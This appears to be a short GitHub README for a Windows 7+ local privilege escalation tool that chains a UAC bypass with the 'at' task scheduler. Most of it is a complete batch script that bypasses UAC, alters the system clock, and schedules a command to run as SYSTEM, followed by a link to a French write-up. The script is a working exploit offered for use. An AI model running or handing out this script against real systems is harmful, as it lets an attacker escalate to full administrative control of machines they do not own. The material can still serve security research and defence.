 # LPE_AT-UAC
Windows 7+ Local Privilege Escalation AT - BypassUAC

atuac.bat content :

```shell
@echo off
set BYPASSUACPATH=C:\bypassuac.exe
set REMOTEPATH=C:\remotex64.exe
set tmptime=%TIME%
%BYPASSUACPATH% /c time 13:37:57,44
%BYPASSUACPATH% /c at 13:38 %REMOTEPATH% /s cmd SYSCMD
ping 127.0.0.1 -n 3 > NUL
%BYPASSUACPATH% /c time %tmptime%
%REMOTEPATH% /c %COMPUTERNAME% SYSCMD
```

* Details (in french) :
    * https://www.asafety.fr/vuln-exploit-poc/windows-vista7-escalade-de-privilege-via-at-et-bypass-uac/

